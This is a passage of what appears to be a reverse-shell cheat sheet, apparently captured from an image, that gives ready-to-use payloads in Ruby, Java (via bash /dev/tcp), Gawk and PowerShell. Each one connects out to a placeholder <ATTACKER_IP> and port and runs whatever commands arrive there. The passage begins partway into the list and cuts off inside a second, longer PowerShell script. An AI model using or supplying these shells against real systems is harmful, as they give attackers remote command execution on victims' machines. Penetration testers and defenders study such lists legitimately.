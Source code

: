 #### Ruby

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<ATTACKER_IP>","<PORT>");while(cmd=c.gets);IO.popen(cmd,"r+"){|io|c.print io.read}end'
```

#### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ATTACKER_IP>/<PORT>;cat <&5 | while read line; do \$line 2>&5 >&5; done"])
p.waitFor()
```

#### Awk (Gawk)

```bash
awk 'BEGIN {s = "/inet/tcp/0/<ATTACKER_IP>/<PORT>"; while(42) { do{ printf "shell>" |& s; s |& getline cmd; if ((cmd = cmd) ~ /^exit$/) break; system(cmd); } while(cmd != ""); close(s); }}' /dev/null
```

#### PowerShell

##### TCP Client (Basic)
```powershell
$client = New-Object System.Net.Sockets.TCPClient("<ATTACKER_IP>",<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$bytes2 = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($bytes2,0,$bytes2.Length);$stream.Flush()};$client.Close()
```

##### TCP Client (with more stability - often requires admin or specific execution policy)
```powershell
$socket = New-Object System.Net.Sockets.TcpClient('<ATTACKER_IP>', <PORT>);
$stream = $socket.GetStream();
$writer = New-Object System.IO.StreamWriter($stream);
$reader = New-Object System.IO.StreamReader($stream);
$writer.AutoFlush = $true;

$proc = New-Object System.Diagnostics.Process;
$proc.StartInfo.FileName = 'cmd.exe';
$proc.StartInfo.UseShellExecute = $false;
$proc.StartInfo.RedirectStandardInput = $true;
$proc.StartInfo.RedirectStandardOutput = $true;
$proc.StartInfo.RedirectStandardError = $true;
$proc.Start();

$input = $proc.StandardInput;
$output = $proc.StandardOutput;
$error = $proc.StandardError;

$buffer = New-Object byte[] 1024;

$output.BaseStream.BeginRead($buffer, 0, $buffer.Length, [AsyncCallback]{
    param($ar)
    $bytesRead = $output.BaseStream.EndRead($ar);
    $writer.Write((New-Object System.Text.ASCIIEncoding).GetString($buffer, 0, $bytesRead));
    $output.BaseStream.BeginRead($buffer, 0, $buffer.Length, $ar, $null);
}, $null);

$error.BaseStream.BeginRead($buffer, 0, $buffer.Length, [AsyncCallback]{
    param($ar)
    $bytesRead = $error.BaseStream.EndRead($ar);
```